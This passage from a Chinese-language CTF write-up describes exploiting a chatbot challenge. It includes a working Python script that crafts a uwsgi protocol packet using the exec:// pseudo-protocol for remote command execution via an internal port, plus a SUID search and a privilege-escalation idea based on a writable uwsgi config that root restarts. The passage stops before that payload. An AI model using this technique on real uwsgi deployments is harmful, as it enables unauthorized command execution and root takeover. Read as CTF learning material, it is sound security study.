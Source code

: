```python
if __name__ == '__main__':
    server = socketserver.ThreadingTCPServer(('127.0.0.1', 1234), ChatBotServer)
    print("启动ChatBot！")
    server.serve_forever()
```

也没啥问题。似乎陷入了僵局。去搜了搜和 uwsgi 相关的 ctf writeup，发现 uwsgi 有个自己的 protocol，而且似乎不会验证用户权限，而且**可以用 exec 伪协议执行任意命令**！

找了个网上的脚本魔改（写 wp 的时候找不到是基于哪个脚本改的了，如果有人知道的话欢迎告诉我）：

```python
host = "127.0.0.1"

def fromhex(data):
    padded = hex(data if isinstance(data, int) else len(data))[2:].rjust(4, '0')
    return bytes.fromhex(padded)[::-1]

def generate_packet(cmd):
    packet = {
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'REQUEST_METHOD': 'GET',
        'PATH_INFO': "/nowhere",
        'REQUEST_URI': "/nowhere",
        'QUERY_STRING': "",
        'SERVER_NAME': host,
        'HTTP_HOST': host,
        'UWSGI_FILE': f"exec://{cmd}",
        'SCRIPT_NAME': "/nowhere"
    }

    pk = b''
    for k, v in packet.items() if hasattr(packet, 'items') else packet:
        pk += fromhex(k) + k.encode('utf8') + fromhex(v) + v.encode('utf8')
    result = b'\x00' + fromhex(pk) + b'\x00' + pk

    return result

packet = generate_packet("ls / > /tmp/taoky")
with open("payload", "wb") as f:
    f.write(packet)
```

执行之后做一次 base64，用主页的聊天功能对准 127.0.0.1:3031 发送，然后用 chatbot 页面看 `/tmp/taoky`，就能读取 `/tmp/taoky` 看到 `ls /` 的结果了。（对应的，stderr 的结果在 `/tmp/supervisor.log` 里头）

> 虽然现在还只是无权限的用户 不过 即使只是 `nobody`
> 
> 也会想着在哪一天 灿烂地成为 `root` 的吧

即使能 RCE 了，我们还是 nobody 用户。受到之前做的题目带来的 stereotype 的影响，我的第一反应是找 `setuid` binary，但是怎么找都找不到：执行 `find / -perm -u=s -type f`，可以发现找到的文件都是没法利用的。这里卡住了好久。

之后跑命令的时候发现，好像 uwsgi 配置 nobody 可以写入啊！而且 supervisor 检测到服务挂掉重启的时候最开始是 root 用户的身份启动服务的啊！所以 payload 大致长成这样：
